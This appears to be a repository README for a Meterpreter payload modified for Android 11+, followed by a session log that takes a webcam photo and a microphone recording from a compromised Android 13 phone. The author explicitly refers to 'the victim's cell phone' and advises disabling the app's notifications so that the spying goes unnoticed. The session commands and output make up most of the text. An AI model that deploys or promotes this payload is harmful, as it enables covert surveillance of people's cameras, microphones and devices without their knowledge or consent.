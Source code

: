 # Meterpreter-Android
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.

meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
